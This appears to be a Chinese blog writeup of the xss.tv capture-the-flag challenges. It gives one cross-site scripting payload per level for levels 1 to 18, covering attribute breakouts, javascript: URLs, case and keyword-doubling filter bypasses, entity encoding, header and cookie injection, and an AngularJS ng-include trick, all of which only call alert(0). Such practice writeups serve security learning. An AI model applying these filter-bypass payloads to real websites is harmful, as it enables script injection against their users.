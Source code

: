 ```yaml
---
title: "xss.tv Writeup"
date: 2018-08-04T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['ctf','xss']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



[test.xss.tv](http://test.xss.tv/)

最短 xss 平台的题目, 一共20关.

19关和20关没做, 都是 xsf, 之前审计过 flash 文件也没啥好印象.

这个相对于之前的 xss challenges 真是一点 Hint 都没有, 不过可以显示出 payload 的长度.

<!--more-->

## level 1

最简单的.

`<svg onload=alert(0)>`

## level 2

输出在 value 内, 闭合标签后再插入 payload.

也可以用 on 事件, 不过这是下一题的考点.

`"><img src=0 onerror=alert(0)>`

## level 3

单引号闭合.

`1' onmouseover='alert(0)`

## level 4

双引号闭合.

`" onmouseover="alert(0)`

## level 5

on 事件被转义成 `o_n`, script 标签也被转义成 `scr_ipt`.

换一个姿势.

`"><a href=javascript:alert(0)>`

## level 6

on href src 都被加上了下划线.

大小写绕过.

`<a HrEf="javascript:alert(0)">click</a>`

## level 7

这题没有转义, 只是把 on href src script 替换成空, 但只替换了一次.

`"><a hrhrefef="javascscriptript:alert(0)">click</a>`

## level 8

关键字都被加上了下划线, 用 html 的自解码机制就可以绕过.

`javasc&#114;ipt:alert(0)`

## level 9

keyword 中没有 `http://` 就显示为非法链接.

其它的都和上题一样.

`javasc&#114;ipt:alert(&#34;http://&#34;)`

## level 10

查看源代码发现有三个隐藏参数, `t_link t_history t_sort`, 其中只有 `t_sort` 可控.

由于标签是 hidden 的就不能触发 on 事件, 所以要改回 text 状态.

`1" type="text" onmouseover="alert(0)`

## level 11

隐藏参数多了个 `t_referer`, 抓包修改 referer 即可.

`1" type="text" onmouseover="alert(0)`

## level 12

抓包修改 user-agent.

`1" type="text" onmouseover="alert(0)`

## level 13

打开后发现多了个 cookie `user=call me maybe`, 直接修改 cookie 重新访问页面.

`1" type="text" onmouseover="alert(0)`

## level 14

这题做的很迷, 打开后直接就是 401 认证, 乱输几个 payload 也没屌用.

在网上看了 writeup 后才发现是图片 exif 信息的 xss.

估计网站已经关闭了, 就直接跳过吧.

## level 15

查看源代码发现 ng-include 这个参数, 百度一会发现这是 angularjs 的语句, 好像和 php 的文件包含差不多.

src 直接包含第一关的内容传参 keyword 为 payload, 并没啥屌用, 后来才发现是 script 标签包含 angularjs 所在的网站被墙了, 恰好又是我大谷歌的地址.

包含的时候要加上单引号.

`'level1.php?keyword=<svg onload=alert(0)>'`

## level 16

反斜杠空格什么的都被替换成了 `&nbsp;`,  两个换行符就可以干掉它.

`<svg%0a%0aonload=alert(0)>`

## level 17

写的是 xsf, 其实只要在 arg02 后面加上 payload 就行了.

`1 onmouseover=alert(0)`

## level 18

同 level 17.

`1 onmouseover=alert(0)`